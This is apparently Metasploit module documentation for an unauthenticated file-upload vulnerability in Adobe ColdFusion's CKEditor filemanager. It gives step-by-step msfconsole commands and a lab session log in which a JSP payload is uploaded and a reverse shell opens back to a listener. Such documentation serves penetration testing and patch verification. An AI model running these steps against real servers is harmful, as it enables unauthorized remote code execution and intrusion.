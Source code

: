 ## Description

A file upload vulnerability in the CKEditor of Adobe ColdFusion 11 
(Update 14 and earlier), ColdFusion 2016 (Update 6 and earlier), and 
ColdFusion 2018 (July 12 release) allows unauthenticated remote 
attackers to upload and execute JSP files through the filemanager 
plugin. Tested on Adobe ColdFusion 2018 v2018.0.0.310739.

## Vulnerable Application

ColdFusion 11 (Update 14 and earlier),
ColdFusion 2016 (Update 6 and earlier), and 
[ColdFusion 2018 (July 12 release)](https://bintray.com/eaps/coldfusion/cf%3Acoldfusion/2018.0.0)


## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/coldfusion_ckeditor_file_upload`
3. `set rhosts <rhost>`
4. `set lhost <lhost>`
5. `exploit`
6. Get a shell


## Scenarios

### Tested on Coldfusion 2018 v2018.0.0.310739

```

msf5 > use exploit/multi/http/coldfusion_ckeditor_file_upload
msf5 exploit(multi/http/coldfusion_ckeditor_file_upload) > set rhosts 172.22.222.142
rhosts => 172.22.222.142
msf5 exploit(multi/http/coldfusion_ckeditor_file_upload) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf5 exploit(multi/http/coldfusion_ckeditor_file_upload) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Uploading the JSP payload at /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/ASMK.jsp...
[+] Upload succeeded! Executing payload...
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.142:43262) at 2019-01-10 06:30:52 -0600

whoami
cfuser
uname -a
Linux 6bd4238e7ffb 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 172.22.222.142 - Command shell session 1 closed.
msf5 exploit(multi/http/coldfusion_ckeditor_file_upload) >
```
